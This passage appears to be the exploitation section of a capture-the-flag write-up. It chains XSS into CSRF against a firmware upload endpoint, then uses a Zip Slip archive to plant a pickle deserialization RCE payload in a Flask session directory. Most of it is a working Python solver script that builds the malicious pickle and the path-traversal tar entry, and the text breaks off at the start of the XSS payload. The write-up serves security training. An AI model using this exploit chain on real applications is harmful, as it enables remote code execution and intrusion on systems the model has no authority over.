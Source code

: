 # Exploitation

We'll use the cross-site scripting vulnerability to perform CSRF on the `/api/firmware/upload` endpoint to upload the Zip Slip payload for extraction. The extraction will place the pickle serialized RCE payload in the `flask_session` directory. Finally, we'll trigger the deserialization by visiting the application with a session cookie sid that matches the md5 filename of the payload. Here's the full-chain solver script:

```python
#!/usr/bin/env python3
import sys, requests, base64, time, tarfile, io, os, pickle, hashlib, struct

hostURL = 'http://127.0.0.1:1337'               # Challenge host URL
userName = f'rh0x01'                            # new username
userPwd = f'rh0x01'                             # new password

def register():
    jData = { 'username': userName, 'password': userPwd }
    req_stat = requests.post(f'{hostURL}/api/register', json=jData).status_code
    if not req_stat == 200:
        print("Something went wrong! Is the challenge host live?")
        sys.exit()

def login():
    jData = { 'username': userName, 'password': userPwd }
    authCookie = requests.post(f'{hostURL}/api/login', json=jData).cookies.get('session')
    if not authCookie:
        print("Something went wrong while logging in!")
        sys.exit()
    return authCookie

def prepare_zipslip(filename):
    class RCE:
        def __reduce__(self):
            cmd = ('/readflag > /app/application/static/flag.txt')
            return os.system, (cmd,)
    pickle_time = struct.pack("I", 0000)
    pickled_payload = pickle_time + pickle.dumps(RCE())

    zipslip = io.BytesIO()
    tar = tarfile.open(fileobj=zipslip, mode='w:gz')
    info = tarfile.TarInfo(f'../../../../../app/flask_session/{filename}')
    info.mtime = time.time()
    info.size = len(pickled_payload)
    tar.addfile(info, io.BytesIO(pickled_payload))
    tar.close()

    return base64.b64encode(zipslip.getvalue()).decode()

print('[+] Signing up a new account..')
register()

print('[~] Logging in to acquire session cookie..')
cookie = login()

print('[+] Preparing zipslip payload file with matching cookie sid..')
sid = 'rayhan0x01'
filename = hashlib.md5(sid.encode()).hexdigest()
b64_file = prepare_zipslip(filename)

print('[+] Preparing the XSS payload to upload the zipslip..')
xss_payload = """
<script>
```